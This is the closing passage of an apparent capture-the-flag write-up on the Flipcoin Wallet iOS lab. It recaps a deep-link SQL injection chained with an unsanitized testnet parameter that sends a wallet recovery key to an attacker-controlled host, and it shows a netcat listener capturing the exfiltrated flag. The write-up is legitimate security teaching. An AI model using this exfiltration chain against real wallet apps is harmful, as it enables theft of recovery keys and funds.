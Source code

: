 So, the outcome of this payload is that we successfully retrieved the `**_recovery_key_**` from the `**_wallet_**` table.

![](https://miro.medium.com/v2/resize:fit:313/1*NrN469Os6j3dn34_8Jxw6g.png)The “recovery_key” (flag) Appeared in the Screen

**_Isn’t this a local SQL Injection that requires physical access to the target device? What makes this an issue?_**

As a recap, since we **previously discovered** that modifying the `**_testnet_**` value allows the application to **send requests to a host we control**, crafting a deep link with this final SQLi payload will enable remote extraction of the `**_recovery_key_**` with a single click.

![](https://miro.medium.com/v2/resize:fit:875/1*Jd_Cad5dCCnDjvgsAES8OA.png)recovery_key Extraction from Remote Target with Single Click

```
% nc -lv 80

POST / HTTP/1.1
Host: 192.168.18.77
Content-Type: application/json
Connection: keep-alive
Accept: application/json
User-Agent: Flipcoin%20Wallet/1 CFNetwork/1410.1 Darwin/22.6.0
Content-Length: 153
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Accept-Encoding: gzip, deflate, br

    '{"jsonrpc":"2.0","method":"web3_sha3","params":["FLAG{fl1p_d4_c01nz}}", "7da50a3fe76ad0ea1de171ec47042ce913235c3792628a779f6acc5b07bebd90"],"id":1}'

```

And so, we reach at the final section of this write-up. In summary, the application is vulnerable to **local** **SQL Injection**, meaning physical access to the device is required to execute the attack. However, by chaining this issue with the **unsanitized** testnet parameter, the extracted data can be **remotely** exfiltrated to an attacker-controlled host.

From another perspective, this lab is not just a case study on SQL Injection via deep links — it also reinforces an important lesson, which is that proper testing requires a deep understanding of the application’s flow_._ In this case, extracting the `**_recovery_key_**` was only possible after identifying the **_exact table structure_** used by the application. This situation **_underscores the importance of looking beyond a single attack vector and assessing the entire system holistically_**, ensuring a thorough evaluation across multiple layers.

*   Mobile Hacking Lab, “FREE Course — iOS Application Security,” November 2024. [Online]. Available: [https://www.mobilehackinglab.com/course/free-ios-application-security-course](https://www.mobilehackinglab.com/course/free-ios-application-security-course).
*   Mobile Hacking Lab, “Mobile Application Security Labs  
    Flipcoin” [Online]. Available: [https://www.mobilehackinglab.com/course/lab-flipcoin-wallet](https://www.mobilehackinglab.com/course/lab-flipcoin-wallet).
*   COBALT, “Learning iOS App Pentesting and Security Part 1,” 13 June 2023. [Online]. Available: [https://www.cobalt.io/blog/learning-ios-app-pentesting-and-security-part-1](https://www.cobalt.io/blog/learning-ios-app-pentesting-and-security-part-1).
*   P. Benoit, “Deep linking and URL scheme in iOS,” 13 February 2022. [Online]. Available: [https://benoitpasquier.com/deep-linking-url-scheme-ios/](https://benoitpasquier.com/deep-linking-url-scheme-ios/).
*   Braze, “How universal links and App Links work,” 30 October 2024. [Online]. Available: [https://www.braze.com/docs/help/help_articles/email/universal_links/#how-universal-links-and-app-links-work](https://www.braze.com/docs/help/help_articles/email/universal_links/#how-universal-links-and-app-links-work).
*   F. Basel, “Mastering Deep Linking in iOS: Unleashing the Power of URL Schemes and Universal Links,” 25 July 2023. [Online]. Available: [https://www.codementor.io/@basilfarajcomedy/mastering-deep-linking-in-ios-unleashing-the-power-of-url-schemes-and-universal-links-271lpah1rt](https://www.codementor.io/@basilfarajcomedy/mastering-deep-linking-in-ios-unleashing-the-power-of-url-schemes-and-universal-links-271lpah1rt).
